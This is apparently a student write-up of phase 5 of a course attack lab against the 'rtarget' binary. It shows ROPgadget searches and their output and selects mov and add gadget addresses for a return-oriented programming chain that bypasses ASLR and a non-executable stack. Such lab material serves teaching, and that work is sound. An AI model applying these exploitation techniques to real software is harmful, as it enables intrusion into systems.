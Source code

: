 ## Phase 5

In phase 5 we need do same thing as phase 3 with protections of ASLR and non-executable stack. String form of cookie need to save in higher address than overflowed return address due to same reason. To match gadget address, add instruction need to be found and position of cookie string need to be considered.

First, Search `mov rax, rsp`  gadget instruction: `ROPgadget --binary rtarget  --only 'mov|nop|ret' | grep -E "rax|rsp"`

```assembly
0x0000000000401b23 : mov byte ptr [rax + 0x605500], 0 ; ret
0x000000000040214d : mov qword ptr [rdi + 8], rax ; ret
0x0000000000401aad : mov rax, rsp ; nop ; ret
0x0000000000401a06 : mov rax, rsp ; ret
0x0000000000401a99 : mov rax, rsp ; ret 0x8dc3
0x00000000004019c5 : mov rdi, rax ; nop ; ret
0x00000000004019a2 : mov rdi, rax ; ret
0x0000000000402e89 : nop dword ptr [rax] ; ret
```

Available instruction addresses are `0x401aad` and `0x401a06`。

Next, search `add rax` gadget instruction(to make `rax` point to cookie string): `ROPgadget --binary rtarget  --only 'add|nop|ret'|grep -E "rax|eax|al"`

```assembly
0x00000000004019d8 : add al, 0x37 ; ret
0x00000000004021b9 : add byte ptr [rax + 0x29], cl ; ret
0x00000000004018aa : add byte ptr [rax - 0x39], cl ; ret 0xffff
0x0000000000402e8b : add byte ptr [rax], 0 ; add byte ptr [rax], al ; ret
0x0000000000402dd9 : add byte ptr [rax], al ; add bl, dh ; ret
0x00000000004021b7 : add byte ptr [rax], al ; add byte ptr [rax + 0x29], cl ; ret
0x0000000000402dd8 : add byte ptr [rax], al ; add byte ptr [rax], al ; ret
0x00000000004017b7 : add byte ptr [rax], al ; add rsp, 0x28 ; ret
0x0000000000400c4f : add byte ptr [rax], al ; add rsp, 8 ; ret
0x0000000000401997 : add byte ptr [rax], al ; ret
0x0000000000401b25 : add byte ptr [rbp + 0x60], dl ; add byte ptr [rax], al ; ret
0x0000000000400f68 : add byte ptr [rcx], al ; ret
0x0000000000402a55 : add byte ptr ss:[rax - 0x39], cl ; ret 0xffff
0x00000000004018a7 : add dh, byte ptr [rdx] ; add byte ptr [rax - 0x39], cl ; ret 0xffff
0x0000000000401117 : add dword ptr [rax + 0x63], ecx ; ret
0x00000000004017b5 : add dword ptr [rax], eax ; add byte ptr [rax], al ; add rsp, 0x28 ; ret
0x0000000000401995 : add dword ptr [rax], eax ; add byte ptr [rax], al ; ret
0x00000000004010b2 : add dword ptr [rax], eax ; add byte ptr [rcx + 0x58948c0], cl ; ret 0x2043
0x000000000040179d : add dword ptr [rbx - 0xf89f606], eax ; ret
0x0000000000400f64 : add eax, 0x20454e ; add ebx, esi ; ret
0x0000000000401b11 : add eax, 0x2045ee ; ret
0x00000000004025c7 : add eax, 0xc7480000 ; ret 0xffff
0x00000000004023bd : add ecx, dword ptr [rax - 0x7d] ; ret
0x0000000000402e89 : nop dword ptr [rax] ; ret
```

Available instruction address is `0x4019d8`.
